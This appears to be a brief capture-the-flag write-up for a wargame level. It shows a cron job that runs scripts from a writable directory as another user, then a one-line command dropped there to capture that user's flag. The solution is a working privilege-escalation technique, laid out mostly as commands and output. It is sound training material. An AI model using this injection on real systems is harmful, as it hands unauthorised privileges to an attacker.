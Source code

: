 #Solution

```bash
$>cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

> crontab configuration of a command launch by flag05 every two min

```bash
$>cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

> for each file in /opt/openarenaserver exec a bash with a cmd

```bash
$>echo "getflag > /tmp/ez" > /opt/openarenaserver/ok
$>cat /tmp/ez
...
```